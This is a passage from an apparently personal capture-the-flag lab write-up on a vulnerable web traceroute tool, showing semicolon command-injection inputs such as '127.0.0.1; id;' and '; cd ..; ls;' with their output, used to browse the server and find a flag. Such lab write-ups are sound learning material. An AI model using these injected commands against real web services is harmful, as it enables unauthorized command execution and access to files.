 ![[Pasted image 20240115144625.png]]
This looks promising! Let's put an ip address here. I got results back.

![[Pasted image 20240115144640.png]]

If I run traceroute in the terminal, I get the same results.

``` sh
(base) root@kali:~# traceroute 192.168.86.154
traceroute to 192.168.86.154 (192.168.86.154), 30 hops max, 60 byte packets
1 192.168.86.154 (192.168.86.154) 0.262 ms 0.228 ms 0.209 ms
```

![[Pasted image 20240115144800.png]]

I have no idea how to attack this, but looking at the write-ups this tool was vulnerable to command execution. All we have to do is add a semi-colon after the ip number and we can run commands like if we were in a terminal. Below are examples pulled from the write-ups.

- 127.0.0.1; id;

traceroute to 127.0.0.1 (127.0.0.1), 30 hops max, 60 byte packets

 1  localhost (127.0.0.1)  0.009 ms  0.003 ms  0.003 ms

uid=48(apache) gid=48(apache) groups=48(apache) context=system_u:system_r:httpd_sys_script_t:s0

This returned some information, but nothing useful for me.

- 127.0.0.1; ls;

traceroute to 127.0.0.1 (127.0.0.1), 30 hops max, 60 byte packets

 1  localhost (127.0.0.1)  0.010 ms  0.005 ms  0.003 ms

root_shell.cgi

tracertool.cgi

This shows me there are two cgi files in this directory. We already knew this from the robotx.txt file.

- 127.0.0.1; cd ..; ls;

traceroute to 127.0.0.1 (127.0.0.1), 30 hops max, 60 byte packets

 1  localhost (127.0.0.1)  0.010 ms  0.003 ms  0.003 ms

cgi-bin

html

We can actually move up a folder and list the files. So as you can expect, I just kept navigating through the files and actually found a flag! The flag was in a passwords folder and the cgi tools where in the cgi-bin folder. This is probably not the intended method to get this flag, but it got us there.

Notice I used more instead of cat to read the file. This box returns a picture of a cat whe you use the cat command, so we needed to use an alternative command.
